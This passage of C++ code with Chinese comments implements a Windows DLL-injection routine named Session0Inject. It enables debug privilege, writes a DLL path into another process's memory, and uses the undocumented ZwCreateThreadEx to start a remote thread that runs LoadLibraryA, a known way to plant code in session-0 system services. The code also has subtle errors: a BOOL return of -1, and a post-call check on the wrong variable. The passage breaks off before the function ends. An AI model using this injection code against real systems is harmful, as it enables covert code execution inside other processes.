 ```cpp
BOOL Session0Inject(DWORD pid, char* dllPath)
{	
	EnableDebugPrivilege();  //提权
	DWORD DllNameLength = strlen(dllPath);  //获取dll路径名的长度

	// 检查文件是否存在  注意:<filesystem>库需使用支持C++17或更高版本的编译器
	if (!std::filesystem::exists(dllPath)) {
		printf("指定的DLL文件不存在\n");
		return -1;
	}

	//1 获取目的进程句柄
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (hProcess == NULL)
	{
		printf("打开进程失败: %d\n", GetLastError());
		return -1;
	}

	//2 为目的进程分配内存,用于存放Loadlibrary传入的参数,即dll的路径
	VOID* paraAddr = VirtualAllocEx(hProcess, NULL, DllNameLength + 1, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == paraAddr)
	{
		printf("内存分配失败\n");
		return -1;
	}

	//3 将DLL的路径写到目标进程的内存
	if (!WriteProcessMemory(hProcess, paraAddr, dllPath, DllNameLength + 1, NULL))
	{
		printf("写入内存失败！\n");
		return false;
	}

	//4 获取loadlibrary函数的地址
	HMODULE LibHandle = GetModuleHandle("kernel32.dll");
	FARPROC ProcAdd = GetProcAddress(LibHandle, "LoadLibraryA");
	if (!ProcAdd)
	{
		printf("获取LoadLibraryA失败!\n");
		return false;
	}

	//5 通过调用GetProcAddress函数来获取ZwCreateThreadEx函数的地址
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	DWORD dwStatus;
	HANDLE hRemoteThread; 
	Fn_ZwCreateThreadEx ZwCreateThreadEx = (Fn_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		printf("GetProcAddress error\n");
		return -1;
	}

	//6 使用获取到的ZwCreateThreadEx函数在目标进程中创建线程，运行LoadLibraryA函数，参数为DLL路径
	dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess,
		(LPTHREAD_START_ROUTINE)ProcAdd, paraAddr, 0, 0, 0, 0, NULL);
	if (NULL == ZwCreateThreadEx)
	{
		printf("ZwCreateThreadEx error\n");
		return -1;
	}
```
